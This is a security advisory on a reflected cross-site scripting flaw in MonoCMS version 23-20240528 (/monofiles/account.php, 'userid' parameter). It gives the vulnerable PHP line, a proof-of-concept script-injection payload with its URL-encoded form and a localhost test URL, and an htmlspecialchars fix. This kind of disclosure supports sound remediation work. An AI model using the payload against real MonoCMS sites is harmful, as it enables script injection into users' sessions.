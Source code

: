 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/account.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/account.php

Injection parameter: `userid`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `userid` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.


## Vulnerable code:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print $_GET['userid'] ?>" hidden>
```


## Injection Payload Tested:

We set `userid` to:
```
"><script>alert('XSS')</script>
```


## URL-encoded, this becomes:
```
%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```


## Resulting HTML After Injection:
```
<input name="hiddenid" type="text" value=""><script>alert('XSS')</script>" hidden>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the <script> tag to be inserted into the DOM.



## Execution:

When the browser parses this HTML, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS by secuserx"`.



## Demonstration:

Below is how `/monofiles/account.php` looks like:

![account.php](https://i.postimg.cc/dV25sxCv/1.png)


Then we can add our payload `"><script>alert('XSS by secuserx')</script>` :
```
http://localhost:8080/monofiles/account.php?userid="><script>alert('XSS by secuserx')</script>
```

![payload](https://i.postimg.cc/CKwmzsC8/2.png)


After submitting the url with the vulnerable parameter `userid` and the XSS payload `"><script>alert('XSS by secuserx')</script>`, XSS is triggered:

![xss](https://i.postimg.cc/pdkk85k6/3.png)



## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

Example:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print htmlspecialchars($_GET['userid'], ENT_QUOTES, 'UTF-8') ?>" hidden>
```



> One Click Can Change Everything: Be Secure.
